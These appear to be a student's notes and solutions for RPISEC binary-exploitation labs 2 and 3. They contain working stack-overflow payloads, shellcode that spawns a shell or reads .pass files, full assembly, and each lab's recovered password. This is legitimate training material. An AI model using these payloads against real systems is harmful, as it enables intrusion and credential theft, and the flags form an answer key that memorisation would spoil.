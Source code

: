 Wed 7-10 Sage 3101

irc.rpis.ec
6667
#rpisec

binexp_ta@cs.lists.rpi.edu


* <2015-01-27 Tue> x86
Course in 32bit.  906 instructions in base set.  Intel syntax in this
couse.

* <2015-01-30 Fri> loading
What happens when you run the binary? Lots of scary stuff.
Reverse engineering deals with only the binary on; no source 
code, no compilation/linking/assembling.

* Reverse engineering domain
** Static
What happens before running.  
** strings
Prints ASCII null terminated printable strings of length 4 or more 
in a file (i.e. binary); get dat password dawg.
* <2015-02-13 Fri> lab2
** pw 1 lab2start
** C 
Overflowed buf to write 0xdeadbeef to set_me.
./lab2C `python -c "print 'A'*15 + '\xef\xbe\xad\xde'"`
1m_all_ab0ut_d4t_b33f
** B
Forced print_name() to return to shell() instead of main and 
made shell()'s arg point to exec_string to execute the shell.
./lab2B `python -c "print 'A'*27 + '\x7D\x84\x04\x08' + 'A'*4 + '\xA0\x85\x04\x08'"`
exec string address: 0x080485A0
shell() address: 0x0804847d
i_c4ll_wh4t_i_w4nt_n00b
** A
Bash:
python -c "print 'ABCD'*100" > /tmp/video_games/foo.txt
0x8434441
python -c "print '\xCDB\x04\x84'*100 + '\n'"  > /tmp/video_games/foo.txt

in gdb:
run < /tmp/video_games/foo.txt

shell() address: 0x080484cd
ret address: 0x0804858D
D1d_y0u_enj0y_y0ur_cats?
* <2015-02-24 Tue> Lab 3
** C
Get a shell with:
payload: (python -c 'print "rpisec\n" + "\x90" * 30 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\x90" * 22 + "\x3c\xf6\xff\xbf\n"'; cat;) | /levels/lab3/lab3C

th3r3_iz_n0_4dm1ns_0n1y_U!
** B
Payload opens the .pass file, reads its contents, and writes them to stdout.

shell_script = "\x31\xDB\x31\xC9\xF7\xE3\xB0\x73\x50\x68\x2E\x70\x61\x73\x68\x62\x33\x41\x2F\x68\\
x65\x2F\x6C\x61\x68\x2F\x68\x6F\x6D\xB0\x05\x89\xE3\xCD\x80\x89\xC3\x81\xEC\x00\x05\x00\x00\x89\x\
E1\xBA\x32\x00\x00\x00\xB8\x03\x00\x00\x00\xCD\x80\xBB\x01\x00\x00\x00\x89\xE1\x89\xC2\xB8\x04\x0\
0\x00\x00\xCD\x80\xB0\x01\x31\xDB\xCD\x80"


Padding to 156 bytes, which is the distance from the buffer in the given 
code to the return address.
print "\x90"*39 + shell_script + "\x90"*38 + "\xb0\xfa\xff\xbf"

wh0_n33ds_5h3ll3_wh3n_U_h4z_s4nd
** A
The "cat" payload from part B was reused for the purposes of this lab.  
The lab obstacle (every 3rd array entry being unaccessible null bytes) 
was addressed by using the byte immediately before every 3rd entry to 
produce the assembly "sub eax, 0x00000000", effectively nullifying the 
null bytes.  There were thus many 7 byte wide chunks to fit the actual 
code.  As many instructions as possible would be placed in these bytes, 
with the rest of the space occupied by nops.  

The resulting assembly is:

; shellcode to simulate the cat, for lab3A
Section .text
global _start

_start:
    ; clear a bunch of registers
    xor ebx, ebx
    mul ebx

    ; put 0 in ecx ( O_RDONLY ) and edx ( mode 0 ) is already 0 from the mul above
    ; xor edx, edx
    xor ecx, ecx
    nop
    sub eax, 0x00000000

    ; "/home/lab3end/.pass"
    push 0x00737361
    nop
    nop
    sub eax, 0x00000000
    push 0x702e2f64
    nop
    nop
    sub eax, 0x00000000
    push 0x6e653362
    nop
    nop
    sub eax, 0x00000000
    push 0x616c2f65
    nop
    nop
    sub eax, 0x00000000
    push 0x6d6f682f
    nop
    nop
    sub eax, 0x00000000

    mov ebx, esp
    mov al, 5
    int 0x80
    nop
    sub eax, 0x00000000

    ; at this point eax contains the file descriptor for the file we opened
    mov ebx, eax

    ; decrement the stack pointer so we don't overwrite our shellcode
    mov ecx, esp
    nop
    nop
    nop
    sub eax, 0x00000000
    sub ecx, 0x200
    nop
    sub eax, 0x00000000

    ; how many chars to read
    mov edx, 60
    nop
    nop
    sub eax, 0x00000000

    ; read
    mov eax, 3
    nop
    nop
    sub eax, 0x00000000
    int 0x80

    ; which interrupt
    mov eax, 4
    sub eax, 0x00000000
    ; which file descriptor
    mov ebx, 1
    nop
    nop
    sub eax, 0x00000000
    ; length of string to read
    mov edx, 60
    nop
    nop
    sub eax, 0x00000000
    int 0x80

    ; exit
    mov eax, 1
    sub eax, 0x00000000
    xor ebx, ebx
    int 0x80

The assembly between each 0x00000000 was converted to a decimal 
representation to be stored using the program's interface.  Finally, 
the EIP of main() was overwritten by accessing data out of bounds. 
The appropriate values of the index and the EIP value were gotten 
using gdb's i frame command and ltrace, respectively.  The 
final series of commands was thus:

store
3824671537
1
store
764463409
2
store
1936941416
4
store
764448768
5
store
774857832
7
store
764448880
8
store
1697866344
10
store
764448878
11
store
1815045480
13
store
764448865
14
store
1869098856
16
store
764448877
17
store
95478665
19
store
764444877
20
store
3783902089
22
store
764448912
23
store
33614209
25
store
764411904
26
store
15546
28
store
764448768
29
store
952
31
store
764448768
32
store
79200461
34
store
754974720
35
store
443
37
store
764448768
38
store
15546
40
store
764448768
41
store
28868813
43
store
754974720
44
store
2160974641
46
store
3221222588
113
quit

The password printed out is sw00g1ty_sw4p_h0w_ab0ut_d3m_h0ps.
